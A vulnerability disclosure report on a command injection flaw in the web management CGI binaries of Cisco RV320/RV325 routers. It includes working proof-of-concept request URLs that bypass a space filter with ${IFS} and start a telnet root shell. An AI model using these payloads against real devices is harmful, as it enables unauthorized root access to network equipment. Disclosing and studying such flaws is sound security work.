






# Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

Cisco RV320 Dual Gigabit WAN VPN Router

Cisco RV325 Dual Gigabit WAN VPN Router

**Affected firmware version:**

1.5.1.13 (the latest release version)

**Firmware download address:** 

[https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13](https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13 "https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13")

# Overview

`Cisco RV32x Series VPN Routers` was detected with `command injection vulnerabilities`. These vulnerabilities are caused by lax verification of user input. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerability was detected in the **`/usr/local/EasyAccess/www/cgi-bin/config.exp`** binary. In addition, the vulnerability also exists in the similar binary file **`/usr/local/EasyAccess/www/cgi-bin/config_mirror.exp`**.

In the `main` function. We can see that when the string `export_cert&` is included in our request, it will enter the `exportconfig_CertFile` function.

In the `exportconfig_CertFile` function. When the content after the last `&` is `MY_CA`, everything between the second and the third `&` is concatenated unchecked into `acStack1088` and executed as an argument to the `system` function.

To sum up, we can write malicious commands between the second and the third `&` with `MY_CA` as the content after the last `&`.

# Poc

However, in the actual test, we found that these devices filtered spaces, so we can't inject some commands directly. But it is possible to use `${IFS}` instead of space to bypass the filtering. Therefore, we can do this by injecting the `/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh` command.

## Case 1

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config.exp?export_cert&abc&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;&abc&MY_CA` by the `POST` request.

## Case 2

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config_mirror.exp?export_cert&abc&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;&abc&MY_CA` by the `POST` request.

# Attack Demo

Before the attack, scan the ports of the router to ensure that port `23` of the `telnet` service is not enabled.

Follow the POC above to make the request.

After the attack is completed, we performed a port scan again and found that the `telnet` service has been successfully started. And then, we successfully logged into the device remotely and got the `root shell` of the device.

